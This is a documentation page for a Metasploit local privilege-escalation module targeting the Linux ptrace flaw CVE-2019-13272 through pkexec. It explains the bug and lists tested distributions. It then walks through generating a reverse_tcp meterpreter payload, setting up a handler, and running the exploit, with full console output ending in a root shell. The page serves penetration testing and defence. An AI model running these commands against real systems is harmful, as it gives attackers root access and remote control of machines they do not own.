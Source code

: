 ## Vulnerable Application

In the Linux kernel before 5.1.17, ptrace_link in kernel/ptrace.c mishandles
the recording of the credentials of a process that wants to create a ptrace
relationship, which allows local users to obtain root access by leveraging
certain scenarios with a parent-child process relationship, where a parent drops
privileges and calls execve (potentially allowing control by an attacker). One
contributing factor is an object lifetime issue (which can also cause a panic).
Another contributing factor is incorrect marking of a ptrace relationship as
privileged, which is exploitable through (for example) Polkit's pkexec helper
with PTRACE_TRACEME. NOTE: SELinux deny_ptrace might be a usable workaround in
some environments.

  This module has been tested successfully on:
  * Ubuntu 16.04.5 kernel 4.15.0-29-generic
  * Ubuntu 18.04.1 kernel 4.15.0-20-generic
  * Ubuntu 19.04 kernel 5.0.0-15-generic
  * Ubuntu Mate 18.04.2 kernel 4.18.0-15-generic
  * Linux Mint 17.3 kernel 4.4.0-89-generic
  * Linux Mint 18.3 kernel 4.13.0-16-generic
  * Linux Mint 19 kernel 4.15.0-20-generic
  * Xubuntu 16.04.4 kernel 4.13.0-36-generic
  * ElementaryOS 0.4.1 4.8.0-52-generic
  * Backbox 6 kernel 4.18.0-21-generic
  * Parrot OS 4.5.1 kernel 4.19.0-parrot1-13t-amd64
  * Kali kernel 4.19.0-kali5-amd64
  * Redcore 1806 (LXQT) kernel 4.16.16-redcore
  * MX 18.3 kernel 4.19.37-2~mx17+1
  * RHEL 8.0 kernel 4.18.0-80.el8.x86_64
  * Debian 9.4.0 kernel 4.9.0-6-amd64
  * Debian 10.0.0 kernel 4.19.0-5-amd64
  * Devuan 2.0.0 kernel 4.9.0-6-amd64
  * SparkyLinux 5.8 kernel 4.19.0-5-amd64
  * Fedora Workstation 30 kernel 5.0.9-301.fc30.x86_64
  * Manjaro 18.0.3 kernel 4.19.23-1-MANJARO
  * Mageia 6 kernel 4.9.35-desktop-1.mga6
  * Antergos 18.7 kernel 4.17.6-1-ARCH

## Verification Steps

  1. Start msfconsole
  1. Get a shell or meterpreter session on the target
  1. Do: `use exploit/linux/local/ptrace_traceme_pkexec_helper`
  1. Do: `set session #`
  1. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to `/tmp`

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to `Auto`

## Scenarios

### Ubuntu 18.04 (with Linux 4.15.0-13-generic)

#### Initial Access

We need to gain an initial session on the target system before we can use this module.
Additionally this module will only work from a GUI session, and will fail with an SSH session.
In order to gain a compatible session we will upload a payload binary and run it from gnome-terminal.

```
# Create a payload binary
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f elf -o binary

# Start a handler
msfconsole
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.56.1:4444

# Execute the payload using gnome-terminal on the target

[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.7:33244) at 2019-09-03 17:42:17 +0800

meterpreter > background

```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set VERBOSE true
VERBOSE => true
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > exploit
[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.zacecz' (285 bytes) ...
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Writing '/tmp/.fmrefxhjjcq.c' (9718 bytes) ...
[*] Executing exploit '/tmp/.fmrefxhjjcq'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.7:58270) at 2019-09-03 17:29:57 +0800
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, in a scenario where `build-essential` or `gcc` aren't on the system.

```
msf5 exploit(multi/handler) > use exploit/linux/local/ptrace_traceme_pkexec_helper
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set SESSION 1
SESSION => 1
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > set COMPILE False
COMPILE => False
msf5 exploit(linux/local/ptrace_traceme_pkexec_helper) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[+] Kernel version 4.15.0-13-generic appears to be vulnerable
[+] pkexec is installed
[*] Writing '/tmp/.yaamzkukaml' (285 bytes) ...
[*] Dropping pre-compiled exploit on system...
[*] Writing '/tmp/.wtoplrisgzzo' (51200 bytes) ...
[*] Executing exploit '/tmp/.wtoplrisgzzo'
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3021284 bytes) to 192.168.56.7
[*] Exploit result:
Linux 4.10 < 5.1.17 PTRACE_TRACEME local root (CVE-2019-13272)
[.] Checking environment ...
[!] Warning: $XDG_SESSION_ID is not set
[!] Warning: Could not find active PolKit agent
[~] Done, looks good
[.] Searching for known helpers ...
[~] Found known helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Using helper: /usr/lib/gnome-settings-daemon/gsd-backlight-helper
[.] Spawning suid process (/usr/bin/pkexec) ...
[.] Tracing midpid ...
[~] Attached to midpid
[*] Meterpreter session 3 opened (192.168.56.1:4444 -> 192.168.56.7:58272) at 2019-09-03 17:30:16 +0800
```

